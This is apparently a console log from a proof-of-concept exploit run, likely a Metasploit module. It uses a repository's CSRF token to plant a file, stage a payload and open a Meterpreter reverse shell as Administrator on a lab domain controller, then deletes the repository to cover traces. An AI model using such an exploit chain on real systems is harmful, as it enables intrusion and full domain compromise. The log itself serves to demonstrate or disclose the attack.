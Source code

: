 ```
[*] Get "csrf" and "last_commit" values
[+] csrf=En0ZHw8mYn_sR0mvf9XQ-TlPmIY6MTYxNzE5OTc4NTAwNTg5ODUwMA
[+] last_commit=fcfdbab5b2d62674e56c35a0867415426935a4a4
[*] PYITonlR.txt created
[+] File created, shell incoming...
[*] Command Stager progress - 100.00% done (10161/10161 bytes)
[*] Sending stage (200262 bytes) to 192.168.144.195
[*] Meterpreter session 1 opened (192.168.144.1:4444 -> 192.168.144.195:54112) at 2021-03-31 16:10:04 +0200
[*] Cleaning up
[*] Get "csrf" value
[+] csrf=En0ZHw8mYn_sR0mvf9XQ-TlPmIY6MTYxNzE5OTc4NTAwNTg5ODUwMA
[*] Repository Overhold_Aerified deleted.

meterpreter > getuid
Server username: ADLAB\Administrator
meterpreter > sysinfo
Computer        : DC01
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : ADLAB
Logged On Users : 4
Meterpreter     : x64/windows
```
